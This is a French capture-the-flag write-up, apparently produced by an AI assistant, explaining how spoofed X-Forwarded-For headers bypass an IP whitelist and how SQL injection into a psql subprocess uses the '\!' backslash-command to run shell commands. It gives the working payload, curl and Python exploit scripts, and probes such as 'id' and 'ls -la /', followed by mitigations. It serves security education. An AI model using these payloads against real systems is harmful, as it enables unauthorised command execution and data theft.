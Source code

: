 # Write-up — *Alice and the Literal Escape* 🎯

**Challenge**: Alice and the Literal Escape

**Résumé rapide** 🧭

* L'application est une API FastAPI qui protège l'accès via une middleware de sécurité (whitelist d'IP).
* Un endpoint `/cargo/upload` insère un `note` dans une base PostgreSQL en construisant la requête SQL par concaténation de chaînes.
* Le code lance `psql` via `subprocess` pour exécuter la requête — le client `psql` interprète des *backslash-commands* (ex: `\!`) qui peuvent exécuter des commandes shell côté serveur.
* En combinant contournement de la whitelist (via en-têtes `X-Forwarded-For`) + injection SQL + `\!`, on peut exécuter `cat flag.txt` et récupérer le flag.

---

## 1) Analyse du code (explication pas-à-pas) 🔍

Extraits pertinents du `src.py` :

```py
TRUSTED_IPS = ["127.0.0.1"]
config = SecurityConfig(
    whitelist=TRUSTED_IPS,
    blacklist=[],
)
app.add_middleware(SecurityMiddleware, config=config)

# ...

sql = f"INSERT INTO notes VALUES('"+note+"');"
proc = subprocess.run(
    PSQL,
    input=sql,
    capture_output=True,
    text=True
)
```

Points importants :

* **Whitelist IP** : la middleware n'autorise que `127.0.0.1`. Donc depuis l'extérieur on reçoit `403 Forbidden` si la middleware se base sur l'IP de la connexion.

* **Construction SQL par concaténation** : `sql = "INSERT INTO notes VALUES('"+note+"');"` → **aucune échappement**, donc **SQL injection**.

* **Usage de `psql` via subprocess** : la requête SQL est fournie en entrée à `psql`. Le client `psql` comprend des *backslash-commands* côté client — en particulier `\! <cmd>` exécute `<cmd>` dans le shell sur la machine où `psql` s'exécute et renvoie la sortie.

Ces trois éléments combinés ouvrent une voie d'exploitation claire.

---

## 2) Contournement de la whitelist (Quartermaster) 🛡️➡️🧭

Souvent, les applications web sont placées derrière un proxy qui ajoute des en-têtes comme `X-Forwarded-For` ou `X-Real-IP`. Si la middleware se fie naïvement à ces en-têtes, on peut **usurper** l'IP source.

Dans ce challenge, envoyer `X-Forwarded-For: 127.0.0.1` (ou `X-Real-IP`) est suffisant pour que la requête soit acceptée.

---

## 3) Exploitation — idée générale 🧩

1. Poster un `note` contenant une **injection** qui ferme la chaîne SQL, termine l'INSERT et utilise la backslash-command `\!` pour exécuter `cat flag.txt`.
2. Récupérer la sortie renvoyée par `psql` (elle est affichée dans la page sous forme de JSON : `out` / `err`).

### Exemple conceptuel

Si `note = x'); \! cat flag.txt # `, la ligne envoyée à `psql` devient :

```
INSERT INTO notes VALUES('x'); \! cat flag.txt #');
```

* `INSERT` s'exécute (ou échoue — peu importe),
* `\! cat flag.txt` est exécuté par `psql` côté client et lance `cat flag.txt` dans le shell,
* `#` commente le reste de la ligne **côté shell**, évitant les problèmes de quoting qui casseraient la commande shell.

La sortie de `cat flag.txt` remontera dans `proc.stdout` (champ `out`) et sera affichée sur la page.

---

## 4) Payloads et commandes utilisées 🧪

### Payload qui a fonctionné

```
x'); \! cat flag.txt #
```

**Pourquoi le `#` ?** Parce que `\!` exécute tout ce qui suit dans le shell ; ajouter `#` permet de commenter le reste et d'éviter `unterminated quoted string` ou autres erreurs de quoting shell.

### Commande `curl` (exemple)

> Remplace `:PORT` par le port du challenge.

```bash
curl -v \
  -H 'X-Forwarded-For: 127.0.0.1' \
  -H 'X-Real-IP: 127.0.0.1' \
  -H 'Forwarded: for=127.0.0.1' \
  --form-string "note=x'); \\! cat flag.txt # " \
  'http://challenges.challenge-ecw.eu:PORT/cargo/upload'
```

* `--form-string` évite que `curl` interprète `;`, `@` ou `type=` dans la donnée du formulaire.
* On utilise `\\!` pour s'assurer que `\!` arrive côté serveur (double échappement : un pour le shell local si nécessaire, un pour `curl`).

### Script Python (plus robuste)

```python
import requests
url = "http://challenges.challenge-ecw.eu:PORT/cargo/upload"
headers = {
    "X-Forwarded-For": "127.0.0.1",
    "X-Real-IP": "127.0.0.1",
}
payload = "x'); \\! cat flag.txt # "
r = requests.post(url, headers=headers, data={"note": payload})
print(r.text)
```

Le script Python évite les problèmes d'échappement de shell et est pratique pour itérer sur plusieurs chemins (`/flag.txt`, `/home/app/flag.txt`, etc.).

---

## 5) Résultat obtenu ✅

Dans l'exploit réalisé, la réponse brute contenait :

```json
{
  "rc": 0,
  "out": "ECW{st4rlit_carg0_manif3st}",
  "err": "ERROR:  relation \"notes\" does not exist\n..."
}
```

**Flag** : `ECW{st4rlit_carg0_manif3st}` 🎉

> Remarque : l'erreur `relation "notes" does not exist` est normale — l'INSERT échoue parce que la table n'existe pas, mais `psql` exécute quand même la commande `\!` côté client.

---

## 6) Diagnostics / étapes si tu obtiens des erreurs 🛠️

* **`403 Forbidden`** → vérifier les en-têtes `X-Forwarded-For` / `X-Real-IP`. Tester aussi `Forwarded: for=127.0.0.1`.
* **Warnings de `curl` (skip unknown form field)** → utiliser `--form-string` au lieu de `-F`.
* **`unterminated quoted string`** ou `sh: syntax error` → ajouter `#` après la commande shell (ex : `\! cat flag.txt #`).
* **Pas de sortie dans `out` mais `err` avec `relation "notes" does not exist`** → c'est ok, essayer `id` ou `ls -la /` pour vérifier que `\!` s'exécute :

  * `x'); \! id #`
  * `x'); \! ls -la / #`

---

## 7) Mitigations (comment corriger ça en prod ?) 🔐

1. **Paramétrer les requêtes SQL** (ne jamais concaténer les entrées utilisateur). Par ex. avec `psycopg2` :

```py
cur.execute("INSERT INTO notes VALUES(%s)", (note,))
```

2. **Ne pas exécuter `psql` via `subprocess`** en lui passant des chaînes non-sanitized. Si vous devez exécuter des commandes externes, validez strictement les entrées et utilisez des bibliothèques DB adaptées.

3. **Ne pas faire confiance aux en-têtes `X-Forwarded-For`** sauf si vous êtes sûr d'être derrière un reverse-proxy correctement configuré qui remplace/ajoute ces en-têtes. Vérifier la source de la connexion côté socket si nécessaire.

4. **Filtrer / interdire les backslash-commands** si vous appelez un client `psql` depuis un subprocess et que vous ne pouvez pas l'éviter.

---

## 8) Petit résumé final (pour le write-up) ✍️

* **Vulnérabilités** : confiance sur les en-têtes d'IP (whitelist bypass) + SQL concaténée + usage de `psql` client-side (backslash-commands).
* **Exploit** : `X-Forwarded-For: 127.0.0.1` + `note` = `x'); \! cat flag.txt # ` → lecture du flag.
* **Flag** : `ECW{st4rlit_carg0_manif3st}`

---

Si tu veux, je peux aussi :

* Générer un **PDF** ou un **fichier texte** prêt à envoyer (ou formaté pour un write-up CTF),
* Fournir une **version anglaise** du write-up,
* Ajouter des captures d'écran/commandes exactes à coller dans le rapport.

Dis-moi ce que tu préfères — je peux produire le PDF maintenant. 🙂
